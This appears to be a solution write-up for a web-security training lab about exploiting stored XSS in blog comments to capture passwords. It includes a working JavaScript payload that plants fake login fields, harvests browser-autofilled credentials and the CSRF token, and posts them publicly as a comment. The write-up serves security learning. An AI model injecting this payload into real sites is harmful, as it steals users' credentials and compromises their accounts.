






# Exploiting cross-site scripting to capture passwords
# Objective
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

# Solution
This lab requires Professional edition of Burp Suite (Burp Collaborator). Even though, it can be solved without professional version but it is a little bit more complicated.

## Analysis
||
|:--:| 
||
||

In order to steal user’s credentials, attacker should prepare arbitrary JavaScript code that would run in victim browser and that would send credentials in HTTP Request to Burp Collaborator. The assumption is that user would have auto-fill turn on, therefore, after victim’s browser loads the page, browser would fill logging information (username and password). This would trigger (`onchange`) code to send request exfiltrating victim’s credentials.\
\
Other way to steal user’s credentials is to force user to post his credentials in the comment on the website. To perform this attack `csrf` value will be needed while crafting a valid comment for this blog (and credentials - main goal of this attack).

## XSS Exploit

```js
<input type="text" name="username">
<input type=password name="password" onchange="exfiltrate()">

<script>
function exfiltrate() {
var csrftoken = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;

var data = new FormData();
data.append('csrf', csrftoken);
data.append('postId', 8);
data.append('comment', `${username}:${password}`);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data
});
}
</script>
```

||
|:--:| 
||

Everyone who puts data in those field will have their credentials posted on the blog:


